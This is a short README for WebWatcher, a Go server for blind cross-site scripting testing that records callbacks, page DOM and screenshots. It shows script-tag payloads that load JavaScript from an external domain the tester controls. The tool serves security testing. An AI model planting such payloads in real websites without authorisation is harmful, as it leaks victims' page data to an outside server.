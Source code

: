 # WebWatcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
`go install github.com/pichik/webwatcher@latest`  

2. Set permissions for ports  
`sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher`  

3. Setup `.wwconfig` and add it to your home directory.  
4. Make sure that `assets` and `templates` are in the directory specified in config.  

Login to your website with /login?token=[token]  

## Usage
After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



